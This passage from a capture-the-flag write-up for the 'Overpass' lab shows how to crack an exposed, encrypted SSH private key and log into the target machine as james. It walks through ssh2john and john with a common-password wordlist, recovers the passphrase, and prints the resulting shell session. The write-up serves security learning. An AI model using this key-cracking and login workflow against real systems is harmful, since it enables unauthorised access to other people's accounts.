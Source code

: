 ## SSH Access
On the current page, we can clearly see a private SSH-key. The text above it indicates that it is related to a person named **james** and it seems to be encrypted.
To verify, copy the SSH-key onto the attacker machine and try to login on the target via SSH (port(22) is open, we already discovered that earlier). Keep in mind to change the files permission, otherwise we won't be able to use it.
```
user@parrot ~/writeup/overpass $ chmod 600 id_rsa 
user@parrot ~/writeup/overpass $ ssh james@10.10.166.254 -i id_rsa
Enter passphrase for key 'id_rsa': 
```

We have to crack the passphrase. One way of doing this is by using [john](https://www.kali.org/tools/john/). First, we have to transform the file to the correct format. This is quickly done by `ssh2john id_rsa > id_rsa.hash`. The **id_rsa.hash** file will be used to crack the passphrase.
```
user@parrot ~/writeup/overpass $ sudo john id_rsa.hash --wordlist=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2024-04-17 13:22) 5.882g/s 620894p/s 620894c/s 620894C/s jarek..jade123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
The passphrase seems to be **james13**.

In theory, we should be able to login now. Provide **james13** as the passphrase.
```
user@parrot ~/writeup/overpass $ ssh james@10.10.166.254 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Apr 17 11:24:41 UTC 2024

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 16%                IP address for eth0: 10.10.166.254
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```
